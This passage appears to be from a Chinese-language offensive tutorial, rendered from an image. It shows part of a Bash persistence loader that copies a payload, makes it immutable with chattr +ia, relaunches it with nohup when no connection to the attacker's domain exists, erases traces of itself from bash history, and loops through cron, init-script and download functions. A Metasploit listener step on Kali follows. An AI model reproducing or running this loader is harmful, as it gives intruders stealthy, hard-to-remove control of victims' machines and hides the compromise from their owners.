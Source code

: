 ```bash
  num=`netstat -antup|grep $domain |grep ESTABLISHED|wc -l`
  #如果工作目录中payload不存在，从临时目录cp一份并添加ia权限
  if [ ! -f $gitdir/$payload ]; then
    cp -a -r -f $tmp/$payload $gitdir/$payload
    chmod +x $gitdir/$payload
    chattr +ia $gitdir/$payload
    #chattr +ia $gitdir
  fi    
  #判断如果是docker环境并且进程数量少于1直接运行
  if [[ -e  /.dockerenv && $num -lt 1 ]];then
    $gitdir/$payload
  fi
  #进程数小于1则运行。
  if [ $num -lt 1 ];then
    nohup $gitdir/$payload >>$gitdir/.log&
  fi
  
  #简单清理history记录
  sed -i '/$domain/d' ~/.bash_history
  sed -i '/chattr/d' ~/.bash_history  
}

while true
do
  #获取当前bash -sh进程数量
  loadernum=`ps -aux|grep -v grep |grep "bash -sh" |wc -l`
  #数量少于3则运行，脚本执行到这里进程中会有2个bash -sh，所以少于3运行。
  #大于等于3的时候启动的新进程会自动退出。
  if [ $loadernum -ge 3 ];then 
    break
  fi
  #按顺序循环执行上面创建的函数。
  workerdir
  createcron
  createinit
  download
  runpayload
  #sleep 3 这里是为了减少一些难度，并且避免程序死循环一直执行消耗过多系统资源。
  sleep 3

done

```

# 3 上线 MSF

开启侦听

```
┌──(root㉿kali-31)-[/var/www/html]
└─# msfdb run
```
